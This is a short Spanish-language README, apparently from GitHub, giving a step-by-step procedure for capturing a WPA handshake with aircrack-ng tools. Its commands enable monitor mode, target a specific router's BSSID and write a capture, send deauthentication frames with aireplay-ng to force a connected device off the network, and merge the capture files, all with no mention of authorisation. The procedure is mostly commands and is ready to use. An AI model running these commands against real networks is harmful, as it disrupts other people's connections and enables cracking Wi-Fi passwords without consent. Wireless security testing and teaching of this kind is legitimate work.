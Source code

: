 # WPA Handshake

## Requerimientos
- Aircrack-ng
- mergecap
- Drivers para la tarjeta de red (kali)

## Proceso

### Ingresar como root

```bash
sudo su
```
### Activar modo monitor

```bash
airmon-ng
airmon-ng start {nombreInerfaz}
```
Aquí puede que se genere un nuevo nombre para la interfaz

### Escanear las redes cercanas

```bash
airodump-ng {nombreNuevaInterfaz}
```
### Enfocarse en una red

```bash
airodump-ng -c {channel} --bssid {macRouter} -w {nombreCaptura} {nombreNuevaInterfaz}
```

### Des-Autenticar algún dispositivo conectado

```bash
aireplay-ng -0 1 -a {macRouter} -c {macDispositivo} {nombreNuevaInterfaz}
```

### Juntar varios archivos .cap en uno solo

```bash
mergecap -F pcap *.cap -w {nombre}.cap
```